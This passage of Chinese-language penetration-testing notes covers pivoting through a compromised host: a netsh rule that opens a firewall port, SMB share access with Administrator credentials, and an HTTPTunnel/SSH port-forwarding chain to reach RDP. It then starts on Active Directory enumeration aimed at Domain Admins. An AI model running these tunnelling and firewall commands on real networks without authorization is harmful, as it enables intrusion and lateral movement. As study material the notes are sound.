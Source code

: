   ```
    修改防火墙规则, 开放8080端口
    ```
    netsh advfirewall add rule name="forward_port_rule" protocol=TCP dir=in locaip=LHOST localport=8080 action=allow
    ```
    访问内网8080端口SMB共享
    ```
    sudo vim /etc/samba/smb.conf
    min protocol=SMB2
    sudo /etc/init.d/smbd restart
    smbclient -L RHOST --port=4455 --user=Administrator
    ```
    挂载访问共享文件夹
    ```
    sudo mkdir /mnt/SHARE_NAME
    sudo mount -t cifs -o port=8080 //RHOST/folder -o username=Administrator,password=PASSWORD /mnt/SHARE_NAME
    cat /mnt/SHARE_NAME/FILE
    ```
  - HTTPTunnel
    - 深层包检测设备(FW/IPS/IDS)可能只允许指定的协议的流量通过, 例如HTTP/HTTPS
      - 进制SSH协议流量, 因此基于SSH协议的隧道将失败 
    - HTTPTunnel利用HTTP协议封装其他协议的流量
     - C/S架构,通信双方都需要安装
    - 安装httptunntel
     - sudo apt install httptunnel
    - 隧道: Kali:8080 -> Linux: 1234 -> Linux:8888 -> Windows:3389
      - 前一段是HTTP隧道, 内网部分则是SSH本地端口转发隧道
    ```
    在被控的Linux和Windows之间建立内网SSH本地端口转发通道
    ssh -L 0.0.0.0:8888:192.168.1.110:3389 user@127.0.0.1
    在被控主机上建立HTTP隧道服务端, 转发本机1234到8888端口
    hts --forward-port localhost:8888 1234
    在kali与被控主机之间建立HTTP隧道
    htc --forward-port 8080 10.86.10.1:1234
    直接RDP访问Windows
    Rdesktop 127.0.0.1:80
    ```




## 域
### 基本概念
- AD是一个非常复杂的细粒度的管理层, 它的攻击面非常大
- AD攻击方法主要是枚举/身份认证/横向纵向移动
- AD依赖DNS名称解析, DC几乎*总是*DNS服务器
  - 管理工具
    ```
    dsa.msc 活动目录管理
    dnsmgmt.msc DNS管理
    ```
### 枚举
 - AD渗透针对权限结构进行攻击, 而并非攻击系统漏洞
 - AD渗透起始于枚举
   - 基于已经控制的一台域内成员计算机
 - 域通常使用组账号简化权限管理, 枚举高权限组成员(Domain Admins)
 - 目标是为了获得高权限权限, 完全控制DC
   - DC包含域内所有账号HASH, 域管理员可管理域内所有主机.
 - 枚举AD用户/组
   - 假设已经获得了域账号登录域内主机(本地管理员)
 - 枚举域用户/组账号
   - 发现高权限组成员账号
  ```